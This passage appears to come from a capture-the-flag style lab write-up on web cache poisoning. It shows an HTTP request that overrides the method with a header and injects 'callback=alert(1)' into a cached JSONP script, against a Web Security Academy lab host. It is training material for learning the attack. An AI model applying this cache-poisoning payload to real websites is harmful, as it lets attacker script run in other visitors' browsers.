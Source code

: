 ![img](media/bf45ec407c01127b523991ab00396c4d.png)

Just like the previous lab, we find a request to
“/js/geolocate.js?callback=setCountryCookie” from the home page:

![img](media/e8758bbb1c48d38fefe4957d70e0029a.png)

First we will send the payload with the “Origin” header. We have to add the
“X-Http-Method-Override” header so the “alert(1)” gets cached:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
...
Origin: https://cachebuster.0afc006103e7279e80ff71c000b0005c.web-security-academy.net
X-Http-Method-Override: POST
Content-Length: 17

callback=alert(1)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/cf61caaf9344fced9c0ce396b99aeb80.png)
